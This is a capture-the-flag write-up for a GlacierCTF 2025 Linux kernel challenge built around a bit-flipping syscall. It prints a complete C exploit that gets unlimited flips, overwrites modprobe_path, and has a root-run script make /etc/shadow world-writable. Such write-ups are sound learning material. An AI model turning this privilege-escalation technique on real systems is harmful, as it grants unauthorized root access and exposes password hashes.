

Flip Flip Hooray is a Linux kernel pwn challenge from GlacierCTF 2025. The challenge defines a custom system call that will flip a bit at a given address, but can only be run once.
Here is the patch:
```diff
+SYSCALL_DEFINE2(flipper, void __user *, addr, __u8, bit)
+{
+    static u64 flips_left = 0xDEADBADC0DE00001;
+
+    if (bit >= 8)
+      return -EINVAL;
+    if (flips_left <= 0xDEADBADC0DE00000)
+      return -EINVAL;
+
+    u8 *p = (u8 *)addr;
+    *p ^= (1U << bit);
+
+    flips_left -= 1;
+
+    return 0;
+}
```

The first step is to figure out how to gain more flips. Even though KASLR is enabled in this challenge, on a quick inspection of the address space, we can see that the physmap region is not randomized across runs. This means we do not have to worry about getting a leak but can focus on finding values to overwrite. I decided to scan for the constant 0xDEADBADC0DE00001 in memory and saved its address for later use. Then, I invoked the flip syscall to change one of its 0 bits to a 1, giving me virtually unlimited flips. The second step was to find a way to escalate privileges into root. One target that came to mind was `modprobe_path`. This is a value in the kernel that defines the path to a file that is executed when kernel modules are loaded and unloaded. Conveniently it is also executed with root privileges and can be triggered from various other paths. To find its address, I used the same trick to scan for its default value `/sbin/modprobe` in physmap. Then I just had to use my bit flips to overwrite it to the path of a file that I controlled and get the kernel to run it. 
Here is the final exploit:
```c
#define _GNU_SOURCE
#include <unistd.h>
#include <sys/syscall.h>
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <sys/socket.h>

typedef unsigned long ulong;

unsigned long flip(void *addr, uint8_t bit) {
    return syscall(666, addr, bit);
}

int main() {
    unsigned long res;
    ulong *flips = (ulong *)0xffffff8002381dc0;
    char *modprobe = (char *)0xffffff80023fcbc0;
    char *script_path = "/tmp/x";
    char *target = "/sbin/modprobe";

    // get more flips
    puts("[*] Getting more flips");
    res = flip((char *)flips + 3, 7);
    printf("Flip returned %ld\n", res);

    // test to see if it works again
    puts("[*] Testing flips");
    res = flip(flips, 1);
    printf("Flip returned %ld\n", res);

    // overwriting modprobe path
    for (int i = 0; i < strlen(script_path) + 1; i++) {
        for (int j = 0; j < 8; j++) {
            uint8_t current_bit = (script_path[i] >> j) & 1;
            uint8_t target_bit = (target[i] >> j) & 1;
            if (current_bit != target_bit) {
                long r = flip(&modprobe[i], j);
                if (r < 0) {
                    perror("flip");
                    return 1;
                }
            }
        }
    }

    system("echo -en '#!/bin/sh\nchmod 777 /etc/shadow' > /tmp/x");
    system("chmod 777 /tmp/x");
    int sockfd = socket(AF_ALG, SOCK_SEQPACKET, 0);

    // /etc/shadow should be globally writable now

    return 0;
}
```

I solved this challenge by myself and learned about the interesting property that physmap is not randomized even with KASLR on arm64 systems.
